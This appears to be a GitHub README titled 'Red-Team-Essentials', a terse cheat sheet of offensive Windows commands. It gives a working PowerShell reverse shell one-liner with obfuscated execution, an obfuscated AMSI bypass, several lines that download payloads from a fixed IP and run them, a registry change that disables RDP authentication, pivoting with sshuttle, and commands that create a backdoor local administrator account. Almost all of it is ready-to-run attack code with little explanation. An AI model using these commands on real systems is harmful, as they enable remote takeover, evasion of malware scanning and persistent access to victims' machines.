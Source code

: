 # Red-Team-Essentials

#Powershell Reverse Shell one Liner (AMSI Bypass)


$ip='192.168.1.114';$port=1337;$client = New-Object System.Net.Sockets.TCPClient -ArgumentList $ip, $port;$s = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};$l = "lol";Set-alias $l ([char]105 + [char]101 + [char]120);while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (lol $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$s.Write($sendbyte,0,$sendbyte.Length);$s.Flush()};$client.Close()

#Powershell Download in V4 and V5

 Invoke-WebRequest "http://10.10.15.58/hex.ps1" -OutFile "C:\Windows\TEMP\hex.ps1" 
 
#Check Powershell Version 

 $PSVersionTable.PSVersion

#Download File Powershell V2 

(New-Object Net.WebClient).DownloadFile('http://10.10.15.58/powerview.ps1', 'C:\users\someuser\Desktop\powerview.ps1') 

#Download Execute Powershell One Liner 

powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.58/payload.ps1')

#AMSI Bypass

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

#Execute this on target machine if you get rdesktop's Cred SSP Error while using remotedesktop

 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
 
 #Remote desktop login through domain user credentials 
 
 xfreerdp /u:username /d:adcorp.local /p:"passwordxyz" /v:TARGETIP
 
 #Download Execute powershell
 
 powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.15.58/payload.ps1')|iex"
 
 #Pivoting using sshutle when you have rsa keys 
 
sshuttle -r root@TARGETIP -e "ssh -i rsa" TARGETIPRANGE.0/24


 #Adding user on windows cmd line & adding it to local admin group 
 
net user hexninja lolbr654$@123 /ADD

net localgroup administrators hexninja /ADD

